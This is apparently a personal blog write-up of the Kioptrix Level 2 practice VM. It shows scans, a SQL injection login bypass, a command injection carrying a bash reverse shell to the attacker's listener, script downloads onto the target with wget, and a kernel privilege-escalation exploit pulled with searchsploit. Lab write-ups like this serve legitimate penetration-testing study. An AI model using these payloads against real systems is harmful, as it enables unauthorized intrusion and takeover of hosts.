 ```yaml
---
title: "Kioptrix Lvl 2 Writeup"
layout: post
date: 2017-08-29
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Writeup
- Pentest
category: blog
author: marioibarra
description: Kioptrix lvl 2 Writeup
---
```


## Kioptrix Level 2

I begin with the usual netdiscover and nmap scan of the target.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~# netdiscover -r 192.168.8.0/24


 Currently scanning: Finished!   |   Screen View: Unique Hosts                 
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.75.1    00:50:56:c0:00:08      1      60  Unknown vendor              
 192.168.75.2    00:50:56:f2:c5:e6      1      60  Unknown vendor              
 192.168.75.129  00:0c:29:4e:f5:c2      1      60  Unknown vendor              
 192.168.75.254  00:50:56:fb:35:c9      1      60  Unknown vendor 
</code></pre></figure>




<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129$ cat 192.168.75.129.nmap 
# Nmap 7.50 scan initiated Wed Jul 12 01:14:25 2017 as: nmap -sV -O -oN /home/mario/oscp/exam/192.168.75.129/192.168.75.129.nmap 192.168.75.129
Nmap scan report for 192.168.75.129
Host is up (0.00023s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4E:F5:C2 (VMware)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 12 01:14:43 2017 -- 1 IP address (1 host up) scanned in 18.45 seconds
</code></pre></figure>


Port 80 looks like an easy target and it could possibly have a mysql database on the web service.
![image](/assets/images/kioptrixlvl2/index.png)

Probing a SQL injection, I used the username "admin" and the password "' OR '1'='1".  The injection worked and I gained access to an admin web console.
![image](/assets/images/kioptrixlvl2/sql-injection.png)

This console looks like it's vulnerable to command injection...

I leave a netcat listener on port 8080 open while I attempt to open a bash shell using: "ping 192.168.75.129; bash -i >& /dev/tcp/192.168.75.135/8080 0>&1" on the admin console.
<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~$ nc -lvp 8080
listening on [any] 8080 ...
192.168.75.129: inverse host lookup failed: Unknown host
connect to [192.168.75.135] from (UNKNOWN) [192.168.75.129] 32770
bash: no job control in this shell
bash-3.00$ whoami
apache
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$  
</code></pre></figure>

A bash shell with apache privileges opened so I searched for ways to escalate privileges.

I setup a python http server on my machine and I downloaded a Linux enumeration script on the target machine in the /var/tmp directory since its writeable.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129/privesc$ python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...
</code></pre></figure>

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash">
bash-3.00$ wget http://192.168.75.135:8081/LinEnum.sh 
--02:03:18--  http://192.168.75.135:8081/LinEnum.sh
           => `LinEnum.sh'
Connecting to 192.168.75.135:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43,283 (42K) [text/x-sh]

    0K .......... .......... .......... .......... ..        100%    2.87 MB/s

02:03:18 (2.87 MB/s) - `LinEnum.sh' saved [43283/43283]
bash-3.00$ chmod 700 LinEnum.sh
bash-3.00$ wget http://192.168.75.135:8081/linprivchecker.py
--02:12:10--  http://192.168.75.135:8081/linprivchecker.py
           => `linprivchecker.py'
Connecting to 192.168.75.135:8081... searonnected.
HTTP request sent, awaiting response... 200 OK
Length: 25,308 (25K) [text/plain]

    0K .......... .......... ....                            100%    1.03 MB/s

02:12:10 (1.03 MB/s) - `linprivchecker.py' saved [25308/25308]

bash-3.00$ chmod 700 linprivchecker.py
bash-3.00$ python linprivchecker.py
</code></pre></figure>

No luck after searching for exploits so I went to my last resort and searched for kernel exploits.  I found one matching "Linux 2.6 centos 4.5" so I tested it.


<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129/privesc$ searchsploit -m 9542
Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
    URL: https://www.exploit-db.com/exploits/9542/
   Path: /usr/share/exploitdb/platforms/lin_x86/local/9542.c

Copied to '/home/mario/oscp/exam/192.168.75.129/privesc/'
</code></pre></figure>


![image](/assets/images/kioptrixlvl2/kernel-exploit.png)


It wasn't too bad getting root, but I did spend alot of time trying to use other exploits that weren't on the kernel.
